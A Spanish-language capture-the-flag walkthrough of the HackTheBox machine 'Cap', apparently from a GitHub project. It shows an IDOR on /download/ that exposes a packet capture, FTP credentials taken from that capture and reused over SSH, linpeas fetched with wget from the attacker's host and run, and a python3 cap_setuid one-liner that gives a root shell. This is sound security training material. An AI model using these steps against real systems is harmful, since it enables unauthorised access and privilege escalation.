






# Tutorial de Cap de HackTheBox en Español



Empezamos la máquina haciendo un escaneo de todos los puertos TCP.

```
nmap -sS -p- -Pn -n --min-rate 5000 10.129.129.34


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:53 CEST
Nmap scan report for 10.129.129.34
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
```

Los puertos abiertos son el `21`, `22` y `80`. Vamos a comprobar que servicios estan corriendo en ellos.

```
nmap -sVC -p 21,22,80 10.129.129.34 --min-rate 5000 -oN services.nmap


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:57 CEST
Nmap scan report for 10.129.129.34
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 20 Oct 2024 12:57:20 GMT
...Más contenido irrelevante...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.10 seconds
```

Como no tenemos credenciales para conectarnos por `ftp` o `ssh`, entraremos al sitio web que corre en el puerto `80`.



Al entrar vemos un dashboard de lo que parece ser un IDS (Sistema de deteccion de intrusiones).

Entrando en `Security Snapshot...`, llegamos a una página en la que podemos descargar capturas de paquetes, que podemos abrir con wireshark.



La captura que nos descarga al hacer click en download está vacia, por lo que no hay mucho que poder hacer con ella.

Al capturar la peticion del `download` con burpsuite, nos damos cuenta de que se está haciendo una petición por GET a `/download/[numero]`. Vamos a probar a cambiar ese numero para ver si la página nos devuelve algo diferente.



Al cambiar el número de la ruta destino a `0`, la página nos devuelve un archivo de proporciones mucho mayores, lo que indica que este no está vacío. Vamos a descargarlo e inspeccionarlo en wireshark.



Recordamos que la máquina tenía abierto un servicio `FTP` en el puerto `21`, por lo que filtramos por "ftp" en wireshark en busca de algún paquete de autenticación en el que poder robar alguna credencial.



Efectivamente, podemos ver como un usuario `nathan` se autenticó con la contraseña `Buck3tH4TF0RM3!`. Dado que generalmente `FTP` y `SSH` utilizan las propias credenciales de los usuarios en la máquina, intentaremos autenticarnos por `ssh` con las credenciales obtenidas.

```
ssh nathan@10.129.129.34
nathan@10.129.129.34's password: Buck3tH4TF0RM3!
```

La autenticación es exitosa, ya podemos obtener la "flag" del usuario.

```
cd
cat user.txt
```

Para poder operar más cómodamente, igualaremos la variable de entorno `TERM` a `xterm`.

```
export TERM=xterm
```

Para escalar privilegios, ejecutaremos `linpeas`, que analiza todo el sistema en busca de vías potenciales de escalar privilegios.

Descargamos el script en nuetra máquina atacante y abrimos un servicio `HTTP` con Python para pasarlo a la máquina víctima.

```
wget https://github.com/peass-ng/PEASS-ng/releases/download/20241011-2e37ba11/linpeas.sh
python3 -m http.server 80
```

Nos lo descargamos en la máquina víctima.

```
wget 10.10.14.43/linpeas.sh
```

Le damos permisos de ejecución y lo ejecutamos.

```
chmod +x linpeas.sh
./linpeas.sh


...más output de linpeas...

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...más output de linpeas...
```

Entre muchas otras cosas, nos reporta que python tiene la capacidad `setuid`, que a efectos prácticos es lo mismo que si tuviera el bit `setuid`.

---

**¿Qué es una capacidad?**

*Las capacidades en linux son una forma de otorgar privilegios de root a procesos de una forma más dividida, en unidades más pequeñas y especificas.*

*Puedes aprender mas sobre capacidades y sobre como explotarlas [aquí](https://book.hacktricks.xyz/es/linux-hardening/privilege-escalation/linux-capabilities#ejemplo-de-explotacion).*

---

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example

Para explotarlo debemos cambiar el `uid` a `0` (el de root) y ejecutar cualquier comando ya como `root`. Esto solo podemos hacerlo si tenemos el permiso `SUID` o la misma capacidad.

```
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```

Ha funcionado, ahora somos `root`, ya podemos obtener su "flag".

```
cd /root
cat root.txt
```

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.